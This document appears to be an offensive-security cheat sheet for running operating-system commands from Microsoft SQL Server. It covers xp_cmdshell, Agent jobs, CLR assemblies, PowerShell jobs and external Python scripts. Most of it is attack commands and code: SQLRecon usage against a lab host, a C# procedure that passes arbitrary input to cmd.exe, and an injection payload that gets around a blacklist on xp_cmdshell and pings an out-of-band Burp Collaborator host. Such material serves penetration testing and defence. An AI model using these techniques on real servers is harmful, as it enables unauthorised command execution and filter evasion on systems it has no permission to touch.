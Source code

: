 
# Command execution

### xp_cmdshell

xp_cmdshell is a system extended stored procedure in Microsoft SQL Server that allows users to execute operating system commands directly from within SQL Server. This functionality can be powerful for administrative tasks, but it also poses significant security risks if not properly managed.

Using SQLRecon.exe:
```
.\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:ienablexp /i:DEV\mssql_svc
```

From mssql shell:
```
EXEC sp_configure 'Show Advanced Options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;

EXEC master..xp_cmdshell 'whoami'
```

```
# Bypass blackisted "EXEC xp_cmdshell"
'; DECLARE @x AS VARCHAR(100)='xp_cmdshell'; EXEC @x 'ping k7s3rpqn8ti91kvy0h44pre35ublza.burpcollaborator.net' —
```

### Using SQL Server Agent Jobs


SQL Server Agent can be used to create and run jobs that execute system commands. This method assumes you have sufficient privileges to create and execute jobs.

**Create a Job:**
```
USE msdb;
GO
EXEC dbo.sp_add_job
    @job_name = N'MyJob';
```

Add a Step to the Job:
```
EXEC sp_add_jobstep
    @job_name = N'MyJob',
    @step_name = N'ExecuteCommand',
    @subsystem = N'CMDEXEC',
    @command = N'cmd.exe /c dir C:\'; -- Example command
```

Schedule and Start the Job:
```
EXEC dbo.sp_add_schedule
    @schedule_name = N'MySchedule',
    @freq_type = 1,  -- One-time execution
    @active_start_time = 233000; -- Start time
EXEC sp_attach_schedule
    @job_name = N'MyJob',
    @schedule_name = N'MySchedule';
EXEC dbo.sp_start_job N'MyJob';
```


## Using SQL CLR (Common Language Runtime)

SQL CLR allows you to run managed code (like C#) within SQL Server. This can be used to create custom functions or procedures that execute system commands.

Enable CLR Integration:
```
sp_configure 'clr enabled', 1;
RECONFIGURE;
```

Create an Assembly and Function:
+Write a C# function to execute the command:
```
using System;
using System.Data;
using System.Data.SqlClient;
using Microsoft.SqlServer.Server;
using System.Diagnostics;

public class SQLCLR
{
    [SqlProcedure]
    public static void ExecCommand(string command)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = "cmd.exe";
        proc.StartInfo.Arguments = "/c " + command;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();
        SqlContext.Pipe.Send(proc.StandardOutput.ReadToEnd());
        proc.WaitForExit();
    }
}
```

+Compile the assembly and deploy it to SQL Server:
```
CREATE ASSEMBLY SQLCLR
FROM 'path_to_your_dll'
WITH PERMISSION_SET = UNSAFE;
GO
```

+Create the stored procedure:
```
CREATE PROCEDURE dbo.ExecCommand
    @command NVARCHAR(4000)
AS EXTERNAL NAME SQLCLR.[Namespace].ExecCommand;
GO

```

**Execute the Command:**
```
EXEC dbo.ExecCommand 'dir C:\';
```

### Using OPENROWSET and BCP Utility

The `OPENROWSET` function and BCP (Bulk Copy Program) utility can be combined to execute system commands. This is more of a roundabout way and involves using SQL Server to interact with files and then triggering command execution.

### Using PowerShell via SQL Server Agent

Another effective method is leveraging PowerShell scripts executed via SQL Server Agent. This also requires appropriate privileges.

Create a PowerShell Job:
```
EXEC dbo.sp_add_job
    @job_name = N'PowerShellJob';
EXEC sp_add_jobstep
    @job_name = N'PowerShellJob',
    @step_name = N'ExecutePowerShell',
    @subsystem = N'PowerShell',
    @command = N'Get-Process'; -- Example PowerShell command
EXEC dbo.sp_add_schedule
    @job_name = N'PowerShellJob',
    @schedule_name = N'PowerShellSchedule',
    @freq_type = 1,
    @active_start_time = 233000;
EXEC sp_attach_schedule
    @job_name = N'PowerShellJob',
    @schedule_name = N'PowerShellSchedule';
EXEC dbo.sp_start_job N'PowerShellJob';
```

### Using SQL Server External Scripts

SQL Server 2016 and later support executing external scripts using R or Python.

**Enable External Scripts:**
```
sp_configure 'external scripts enabled', 1;
RECONFIGURE;
```

**Execute a Python Script:**
```
EXEC sp_execute_external_script 
    @language = N'Python',
    @script = N'
    import os
    os.system("dir C:\\")
    ';
```
